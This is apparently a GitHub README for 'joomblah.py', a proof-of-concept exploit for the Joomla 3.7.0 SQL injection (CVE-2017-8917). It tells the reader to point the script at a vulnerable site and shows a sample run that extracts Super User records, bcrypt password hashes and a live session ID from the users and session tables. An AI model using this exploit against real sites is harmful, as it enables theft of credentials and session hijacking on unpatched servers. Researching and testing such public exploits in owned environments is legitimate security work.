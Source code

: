 # This is an unfinished project that was never converted to python3!
# Exploit for Joomla 3.7.0 (CVE-2017-8917)

Another proof of concept exploit for Joomla, whoop-de-doo, this time a SQL Injection in 3.7.0.

 * https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html

## Usage

Point the joomblah.py script at the vulnerable Joomla 3.7.0 install, it may take some time, but it will dump the users and session tables.

```
$ python joomblah.py http://127.0.0.1:8080
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: rlbre_users
  -  Found table: tgukl_users
  -  Extracting users from rlbre_users
 [$] Found user ['361', 'Super User', 'admin', 'admin@example.com', '$2y$10$G4ivaKw71R4uIvuHYliSke5pHoh1Q.xm.Sk29d8zpzx4xJBfPoyEK', '', '']
  -  Extracting sessions from rlbre_session
 [$] Found session ['361', '3rfv8kql26s6kvimpbchneom85', 'admin']
  -  Extracting users from tgukl_users
 [$] Found user ['883', 'Super User', 'admin', 'admin@example.com', '$2y$10$5Za2zpqTdRo5x19cvO5biOKeiyOi2iTQ3u0SSLtcs6uvIvJhvM9aG', '', '']
  -  Extracting sessions from tgukl_session
```

## Licence

Licenced under the [WTFPL][wtfpl]

[wtfpl]: http://www.wtfpl.net/
